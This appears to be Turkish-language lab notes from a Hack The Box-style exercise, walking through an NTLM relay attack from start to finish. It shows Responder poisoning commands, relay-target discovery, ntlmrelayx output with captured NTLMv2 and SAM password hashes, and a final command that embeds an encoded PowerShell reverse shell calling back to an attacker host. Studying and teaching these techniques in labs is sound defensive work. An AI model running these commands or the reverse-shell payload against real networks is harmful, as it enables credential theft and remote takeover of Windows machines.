




# Attack Phases

## Pre-Relay Phase

!!! abstract

    Kullanıcı ile saldırgan arasında bir NTLM kimlik doğrulama süreci başlamalıdır.

    Bunun için aşağıda verilen yöntemler kullanılabilir:

    * Poisoning ([Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/))
    * Authentication Coercion

### Poisoning

!!! warning

    Domain katılımlı bilgisayarlar için DC üzerinden gerçekleşen delegasyon işlemi basitlik açısından gösterilmemiştir.



1. Kullanıcı geçersiz bir DNS sorgusu yapar.
2. DNS sunucusu sorguya karşılık geçerli bir kayıt bulamaz.
3. Kullanıcı yerel ağa bir yayın yapar.
4. Saldırgan zararlı bir yanıt mesajı göndererek kullanıcıyı zehirler.
5. Kullanıcı ile saldırgan arasında bir kimlik doğrulama süreci başlar.

### Responder Analyze Mode

```sh
htb-student@ubuntu:~$ sudo Responder.py -I ens192 -A
```

```output title="Output"
[Analyze mode: LLMNR] Request by 172.16.117.50 for workstation01, ignoring
[Analyze mode: MDNS] Request by 172.16.117.50 for workstation01.local, ignoring
[Analyze mode: NBT-NS] Request by 172.16.117.50 for WORKSTATION01, ignoring
```

### Responder Poisoning Mode

```sh
htb-student@ubuntu:~$ sudo Responder.py -I ens192
```

```output title="Output"
[SMB] NTLMv2-SSP Client   : 172.16.117.50
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\dperez
[SMB] NTLMv2-SSP Hash     : dperez::INLANEFREIGHT:01e5905c6c0cb0a3:5DCF9470D9432D2FD672556F5E4250DC:01010000000000008034E3E91D65DB01FB4F82B8CD45403C0000000002000800320054003600360001001E00570049004E002D00460055005600590030004B004F004F0049003800430004003400570049004E002D00460055005600590030004B004F004F004900380043002E0032005400360036002E004C004F00430041004C000300140032005400360036002E004C004F00430041004C000500140032005400360036002E004C004F00430041004C00070008008034E3E91D65DB0106000400020000000800300030000000000000000000000000200000C816ACFEC11EF9B3DC99F60D26943DE557302744107A090FF837C0D5A2BA46940A001000000000000000000000000000000000000900240063006900660073002F0077006F0072006B00730074006100740069006F006E00300031000000000000000000
```

## Relay Phase

!!! abstract

    Başlatılan NTLM kimlik doğrulama süreci uygun relay adreslerine iletilir.

### AiTM



1. Kullanıcı saldırgana [NEGOTIATE_MESSAGE](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b34032e5-3aae-4bc6-84c3-c6d80eadf7f2) gönderir. Saldırgan bu mesajı sunucuya iletir.
2. Sunucu saldırgana [CHALLENGE_MESSAGE](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/801a4681-8809-4be9-ab0d-61dcfe762786) gönderir. Saldırgan bu mesajı kullanıcıya iletir.
3. Kullanıcı saldırgana [AUTHENTICATE_MESSAGE](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/033d32cc-88f9-4483-9bf2-b273055038ce) gönderir. Saldırgan bu mesajı sunucuya iletir.
4. Sunucu saldırgana geçerli bir oturum bilgisi sağlar.
5. Geçerli oturumu elde eden saldırgan, kullanıcı ile arasındaki bağlantıyı sonlandırır.

### Finding Relays

!!! warning

    Eğer SMB signing zorunlu ise ilgili hedef SMB relay olarak kullanılamaz.

#### Responder [RunFinger](https://github.com/lgandx/Responder/blob/master/tools/RunFinger.py) Tool

```sh
htb-student@ubuntu:~$ RunFinger.py -i 172.16.117.0/24
```

```output title="Output" hl_lines="2 3"
[SMB2]:['172.16.117.3', Os:'Windows 10/Server 2016/2019 (check build)', Build:'17763', Domain:'INLANEFREIGHT', Bootime: 'Unknown', Signing:'True', RDP:'True', SMB1:'False', MSSQL:'False']
[SMB2]:['172.16.117.50', Os:'Windows 10/Server 2016/2019 (check build)', Build:'17763', Domain:'INLANEFREIGHT', Bootime: 'Unknown', Signing:'False', RDP:'True', SMB1:'False', MSSQL:'False']
[SMB2]:['172.16.117.60', Os:'Windows 10/Server 2016/2019 (check build)', Build:'17763', Domain:'INLANEFREIGHT', Bootime: 'Unknown', Signing:'False', RDP:'True', SMB1:'False', MSSQL:'True']
```

#### CrackMapExec

```sh
htb-student@ubuntu:~$ crackmapexec smb 172.16.117.0/24 --gen-relay-list relays.txt
```

```output title="Output" hl_lines="2 3"
SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.50   445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.60   445    SQL01            [*] Windows 10.0 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
```

#### Nmap

```sh
htb-student@ubuntu:~$ sudo nmap 172.16.117.0/24 -p 445 --open -Pn --script smb2-security-mode.nse
```

```output title="Output" hl_lines="24 36"
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-01 16:52 UTC
Nmap scan report for dc01 (172.16.117.3)
Host is up (0.0016s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:50:56:B0:57:A7 (VMware)

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required

Nmap scan report for ws01 (172.16.117.50)
Host is up (0.00025s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:50:56:B0:0C:76 (VMware)

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required

Nmap scan report for sql01 (172.16.117.60)
Host is up (0.00026s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:50:56:B0:3B:CF (VMware)

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required

Nmap done: 256 IP addresses (4 hosts up) scanned in 11.45 seconds
```

## Post-Relay Phase

!!! abstract

    Ele geçirilen oturum bu aşamada sömürülür.

### Cheat Sheet



### Scenario



| USER | ADMINISTRATOR | RELAY | HASH DUMP |
|---|---|---|---|
| PETER@172.16.117.3 | + | 172.16.117.50 | + |
| PETER@172.16.117.3 || 172.16.117.60 ||

### Disabling Responder SMB

```ini title="Responder.conf" linenums="10"
SMB      = Off
```

### Responder

```sh
htb-student@ubuntu:~$ sudo Responder.py -I ens192
```

### Dumping Hashes

```sh
htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf relays.txt -smb2support
```

```output title="Output" hl_lines="1-2 9-13"
[*] SMBD-Thread-15: Connection from INLANEFREIGHT/PETER@172.16.117.3 controlled, attacking target smb://172.16.117.50
[*] Authenticating against smb://172.16.117.50 as INLANEFREIGHT/PETER SUCCEED
[*] SMBD-Thread-15: Connection from INLANEFREIGHT/PETER@172.16.117.3 controlled, attacking target smb://172.16.117.60
[*] Authenticating against smb://172.16.117.60 as INLANEFREIGHT/PETER SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x563136fa4deefac97a5b7f87dca64ffa
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdb28300fbd0a0ae2ea455e9e391330b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
localws01:1002:aad3b435b51404eeaad3b435b51404ee:e4737f338324305993ed52f775a6d54d:::
[*] Done dumping SAM hashes for host: 172.16.117.50
[*] Stopping service RemoteRegistry
```

### Getting Reverse Shell

```sh
htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf relays.txt -smb2support -c 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA3ADIALgAxADYALgAxADEANwAuADMAMAAiACwAOQAwADAAMQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA='
```
